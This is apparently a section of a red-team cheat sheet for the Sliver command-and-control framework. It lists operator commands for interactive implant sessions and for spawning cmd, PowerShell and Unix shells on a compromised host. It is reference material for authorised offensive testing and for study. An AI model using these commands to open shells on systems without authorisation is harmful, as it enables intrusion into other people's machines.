 # 06 - Interactive Session

## 6.1 - Help Menu

`sliver (IMPLANT_NAME) > interactive -h`

## 6.2 - Usage

`sliver (IMPLANT_NAME) > interactive`

`sliver (IMPLANT_NAME) > background`

`sliver > session -i <session_id>`

`sliver (IMPLANT_NAME) >`

## 6.3 - Spawn Shell

### 6.3.1 - Help Menu

```
sliver (IMPLANT_NAME) > shell -h

Start an interactive shell

Usage:
======
  shell [flags]

Flags:
======
  -h, --help                 display help
  -y, --no-pty               disable use of pty on macos/linux
  -s, --shell-path string    path to shell interpreter
  -t, --timeout    int       command timeout in seconds (default: 60)
```

### 6.3.2 - Usage

#### 6.3.2.1 - Windows

`sliver (IMPLANT_NAME) > shell -s "C:\\Windows\\system32\\cmd.exe"`

`sliver (IMPLANT_NAME) > shell -s "C:\\Windows\\system32\\WindowsPowershell\\v1.0\\powershell.exe"`

`sliver (IMPLANT_NAME) > shell -s "C:\\Windows\\SysWOW64\\WindowsPowershell\\v1.0\\powershell.exe"`

#### 6.3.2.2 - Linux

`sliver (IMPLANT_NAME) > shell -y -s /bin/sh`

`sliver (IMPLANT_NAME) > shell -y -s /bin/bash`

`sliver (IMPLANT_NAME) > shell -y -s /bin/zsh`

`sliver (IMPLANT_NAME) > shell -y -s /bin/dash`

`sliver (IMPLANT_NAME) > shell -y -s /bin/fish`